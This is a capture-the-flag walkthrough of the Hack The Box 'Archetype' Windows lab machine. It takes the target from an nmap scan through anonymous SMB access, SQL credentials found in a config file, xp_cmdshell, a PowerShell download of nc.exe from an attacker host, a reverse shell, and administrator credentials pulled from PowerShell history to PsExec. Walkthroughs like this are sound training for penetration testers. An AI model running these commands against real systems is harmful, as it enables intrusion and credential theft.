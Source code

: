 # ARCHETYPE 

Tags : #windows #smb #mssql #impacket #powershellhistory #ConsoleHost_History #PSReadLine

## Platform : Windows
## IP Address : 10.10.10.27


Nmap Scan
All tcp port scan

```
arrow@ideapad:~/htb/archetype$ nmap -sV -Pn -p- --min-rate 300 -oA alltcp 10.10.10.27

Starting Nmap 7.60 ( https://nmap.org ) at 2021-05-16 15:33 IST
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 72.75% done; ETC: 15:37 (0:01:06 remaining)
Nmap scan report for 10.10.10.27
Host is up (0.47s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server vNext tech preview 14.00.X
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

we can see smb file share 
lets view the shares and connect to them

```
arrow@ideapad:~/htb/archetype/smbmap$ smbclient -L 10.10.10.27
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\arrow's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.10.27 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
arrow@ideapad:~/htb/archetype/smbmap$ smbclient \\\\10.10.10.27\\backups
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\arrow's password: 
Try "help" to get a list of possible commands.
smb: \> 


```


backups directory has anonymous access allowed.
lets see what are the contents inside the folder

```
smb: \> dir
  .                                   D        0  Mon Jan 20 17:50:57 2020
  ..                                  D        0  Mon Jan 20 17:50:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 17:53:02 2020

		10328063 blocks of size 4096. 8245514 blocks available
smb: \> 


```
there is a config file let's 
get onto our system 

```
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```

let's view the contents of the file 

```
arrow@ideapad:~/htb/archetype$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

```
we got the userid and the password for mssql login
```
id - ARCHETYPE\sql_svc
password - M3g4c0rp123
```
now let's use impacket's mssql python script and login into the server

```
                                           
┌──(kali㉿kali)-[~/tools/scripts]
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth                                                           130 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
SQL> 


```
now type enable_xp_cmdshell to enable the cmd shell
after we can execute commands

```
SQL> xp_cmdshell whoami
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 

```

now upload nc.exe to windows machine into sql_svc user's Desktop

```
SQL> xp_cmdshell powershell wget -usebasicparsing http://10.10.17.29:8000/nc.exe -outfile C:\Users\sql_svc\Desktop\nc.exe
```
now get a reverse shell 

```
SQL> xp_cmdshell powershell wget -usebasicparsing http://10.10.17.29:8000/nc.exe -outfile C:\Users\sql_svc\Desktop\nc.exe
```
on our kali 
```
$ rlwrap nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:49739.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
archetype\sql_svc

C:\Windows\system32>

```

we need to get to system user
lets type **whoami /priv** to know what privileges we have 

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
we have **SeImpersonatePrivilege**
we can try potato exploits to get to system

I tried juicy potato but didnot work

Let's run WinPEAS 

on Running winpeas we have some credentials in powershell command history file 
```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```
credentials are 

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

We cannot run **runas** command because it asks for password 
so lets run **PsExec**

```
python3 PsExec.py Administrator@10.10.10.27 cmd
```
enter password and u will get shell

![[/Pasted image 20210516192232.png]]

